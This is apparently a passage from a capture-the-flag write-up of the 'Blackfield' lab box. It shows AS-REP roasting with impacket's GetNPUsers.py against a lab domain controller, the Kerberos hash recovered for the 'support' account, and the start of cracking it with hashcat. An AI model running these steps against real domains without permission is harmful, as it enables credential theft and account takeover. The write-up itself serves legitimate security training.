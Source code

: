 We can use GetNPUsers.py from impacket which can check if there are any valid usernames and if they don't require Kerberos pre-authentication(PREAUTH) enabled.<br>
From the nmap scan we know that the domain name is BLACKFIELD.local<br>

```shell
sid@kali:~$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.10.192 -usersfile users.lst -outputfile kerberos_hashes.txt   -no-pass BLACKFIELD.local/
```
```
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
We find that we get a hash for the username support.
```
sid@kali:~$ cat kerberos_hashes.txt                                                                                                                  
$krb5asrep$23$support@BLACKFIELD.LOCAL:06d8731e38f1df329fca9472d1c401d1$370b735a62e04596ecb1314328537410c072db996557c731c5e1bb4fd
3ce9cdb0edf2e1c3e62ec133065302e2f9f71b315586c68a0c80e68925d27a350ba9c4165e5485089fb43db2ebad7838948de7d0d1bfda6605b89abf1bcab713c
b369b008bff2773e36bf6a90594b25d9e4e43339d28e8b3e00ab82063eddeca36716411baa48b31e1d3926a42febed1906fe340f49ef0332946f9e031ba291d8b
159f3765433e67ee47695652a7c6d13b7c22c450d73d63198023030a4ca2c0db2ce86b4f73d1bc3f74c2449021e66d4e976007500211fd6cf587a5ee10047b6eb
650afda5a4e059c2aab86f4e4fd6ff70b93d6f49af71
```
We can crack this Kerberos AS-REP hash with help of hashcat.
```
sid@kali:~$ hashcat -m 18200 -a 0 kerberos_hashes.txt /usr/share/wordlists/rockyou.txt --force 

hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4210U CPU @ 1.70GHz, 5748/5812 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
```